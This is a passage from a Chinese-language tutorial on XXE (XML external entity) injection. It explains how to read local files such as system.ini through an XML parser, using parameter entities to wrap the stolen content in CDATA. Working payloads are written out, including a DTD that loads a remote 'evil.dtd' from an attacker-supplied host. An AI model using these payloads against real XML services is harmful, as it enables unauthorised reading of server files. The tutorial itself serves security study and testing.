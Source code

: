 ==那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过==，但是怎么做到，我们来简答的分析一下：

首先，找到问题出现的地方，问题出现在

```xml-dtd
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 "\<\!\[CDATA\["和 “\]\]\>”,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

**结果如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e885c2b8-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e885c2b8-ec17-1.png)

注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，==那么要想在 DTD中拼接，我们知道我们只有一种选择，就是使用 参数实体==

**payload:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
        
    	<!-- 定义start参数实体 -->
<!ENTITY % start "<![CDATA[">   
        <!-- 定义goodies参数实体 -->
<!ENTITY % goodies SYSTEM "file:///d:/test.txt"> 
        <!-- 定义end参数实体 -->
<!ENTITY % end "]]>">  
        <!-- 定义dtd参数实体 -->
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
        <!-- 引用dtd实体 -->
%dtd; ]> 
<!-- 定义all通用实体 -->
<roottag>&all;</roottag>
```

**evil.dtd**

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

**替换后**

```xml-dtd
"file:///d:/test.txt"
```

**结果如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e8b7bd54-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e8b7bd54-ec17-1.png)
